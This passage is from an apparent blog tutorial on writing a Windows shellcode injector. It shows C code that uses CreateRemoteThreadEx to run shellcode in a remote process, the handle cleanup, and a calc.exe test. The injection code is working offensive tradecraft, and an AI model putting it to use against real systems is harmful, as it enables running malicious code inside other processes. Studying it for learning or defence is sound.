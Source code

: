 Now that we’re almost there, all that remains is creating the thread to execute the code and cleaning up the open handles.


```c
  /* create thread to run our shellcode */
  hThread = CreateRemoteThreadEx(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rBuffer, NULL, 0, 0, &TID);

  if (hThread == NULL) {
    WARN("failed to get handle to the thread, error: %ld", GetLastError());
    return EXIT_FAILURE;
  }

  INFO("got a handle to the thread (%ld)\n\\---0x%p", TID, hThread);
```

Let’s add the above code to Position 6. Since I already wrote the code to memory, it’s now just a matter of executing the code in a new thread within the process. We include a built-in check to see if we can, or are allowed to, actually do this, and if not, report back to us with the system error. Now, all that remains is cleaning up.


```c
  INFO("waiting for thread to finish.");
  WaitForSingleObject(hThread, INFINITE);
  INFO("thread finished executing.");

  INFO("Cleaning up the open leftover handles.");
  CloseHandle(hThread);
  CloseHandle(hProcess);
  OKAY("finished cleaning up!!");
```

In this part of the code, we simply wait for the thread to finish executing and then clean up the handles. That wraps up the code section of this blog.


## Different behaviours

Now that I’ve finished the injector, it’s time to dive a bit into the different behaviors mentioned earlier. Let’s first test if `calc.exe` actually spawns.

<img src="../assets/img/Abyss/execution1.jpg" alt="Calc.exe Shellcode execution">
